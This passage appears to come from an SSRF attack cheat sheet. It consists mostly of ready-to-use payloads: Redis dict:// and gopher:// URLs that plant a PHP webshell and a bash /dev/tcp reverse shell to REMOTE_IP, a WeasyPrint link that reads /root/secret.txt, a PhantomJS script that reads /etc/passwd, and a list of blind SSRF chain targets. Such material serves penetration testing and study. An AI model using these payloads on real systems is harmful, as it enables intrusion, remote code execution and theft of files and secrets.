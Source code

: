 > Redis is a database system that stores everything in RAM
> 

`# Getting a webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE

# Getting a PHP reverse shell
gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
gopher://127.0.0.1:6379/_save`

## **SSRF exploiting PDF file**

Example with [WeasyPrint by @nahamsec](https://www.youtube.com/watch?v=t5fB6OZsR6c&feature=emb_title)

```
<link rel=attachment href="file:///root/secret.txt">
```

Example with PhantomJS

`<script>
    exfil = new XMLHttpRequest();
    exfil.open("GET","file:///etc/passwd");
    exfil.send();
    exfil.onload = function(){document.write(this.responseText);}
    exfil.onerror = function(){document.write('failed!')}
</script>`

## **Blind SSRF**

> When exploiting server-side request forgery, we can often find ourselves in a position where the response cannot be read.
> 

Use an SSRF chain to gain an Out-of-Band output.

From https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/ / https://github.com/assetnote/blind-ssrf-chains

**Possible via HTTP(s)**

- [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
- [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
- [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
- [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
- [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
- [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
- [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
- [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
- [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
- [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
- [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
- [Other Atlassian Products](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
- [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)
- [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
- [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)
- [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
- [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
- [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)